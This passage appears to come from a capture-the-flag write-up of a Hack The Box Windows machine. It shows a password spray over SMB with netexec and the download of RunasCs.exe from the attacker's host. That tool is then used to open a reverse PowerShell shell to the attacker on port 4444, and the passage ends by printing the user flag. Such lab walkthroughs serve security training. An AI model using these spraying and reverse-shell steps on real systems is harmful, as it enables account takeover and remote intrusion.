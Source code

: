 Passwords:
```bash
t3mp0r@ryS@PWD
IL0v3ErenY3ager
```

Check if any user uses this passwords:
```bash
└─$ netexec smb 10.10.11.5 -u usernames.txt -p passwords.txt
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
...
SMB         10.10.11.5      445    DC               [+] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager
```

## Privilege Escalation (mikasaackerman)

`winrm` is not active system so no luck there. Get reverse shell via `RunasCs.exe`:
```powershell
PS C:\users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU> cd /temp  
PS C:\temp> iwr 10.10.16.75/RunasCs.exe -Outfile rc.exe
PS C:\temp> .\rc.exe mikasaAckerman IL0v3ErenY3ager powershell -r 10.10.16.75:4444
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-48000$\Default
[+] Async process 'C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 4408 created in background.
---
└─$ listen
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.5:54106.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\WINDOWS\system32> whoami
PS C:\WINDOWS\system32> cd \users\mikasaackerman\Desktop
PS C:\users\mikasaackerman\Desktop> ls

    Directory: C:\users\mikasaackerman\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/28/2023   6:23 PM           1468 mail.txt
-a----        10/4/2023   1:47 PM      292692678 MEMORY.7z
-ar---        6/16/2024   5:40 AM             34 user.txt
```

## User.txt

```bash
PS C:\users\mikasaackerman\Desktop> cat user.txt
795b0d8124893776084b71bea269ab55
```
